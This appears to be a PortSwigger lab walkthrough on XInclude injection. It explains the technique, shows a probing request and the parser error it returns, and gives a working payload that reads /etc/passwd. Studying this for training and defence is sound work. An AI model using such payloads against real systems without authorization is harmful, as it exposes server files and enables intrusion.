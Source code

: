 # Exploiting XInclude to retrieve files

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/lab-xinclude-attack)

## Definition
Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element. However, you might be able to use XInclude instead. XInclude is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include. For example:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Notes
This lab has a `Check stock` feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
To solve the lab, inject an XInclude statement to retrieve the contents of the `/etc/passwd` file.

**Original Request**
```http
POST /product/stock HTTP/1.1
Host: ac0e1f361e0dc719c08440640053009d.web-security-academy.net
...

productId=4&storeId=1
```

**Checking if uses SOAP or XML in Server-Side**
```http
POST /product/stock HTTP/1.1
Host: ac0e1f361e0dc719c08440640053009d.web-security-academy.net
...

productId=<&storeId=1
```

**Server Response**
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 120

"XML parser exited with non-zero code 1: The content of elements must consist of well-formed character data or markup.
"
```

**Malicious Payload**
```http
POST /product/stock HTTP/1.1
Host: ac0e1f361e0dc719c08440640053009d.web-security-academy.net
...

productId=<foo+xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include+parse="text"+href="file:///etc/passwd"/></foo>&storeId=1
```

## Key Words
> xml, xxe, xinclude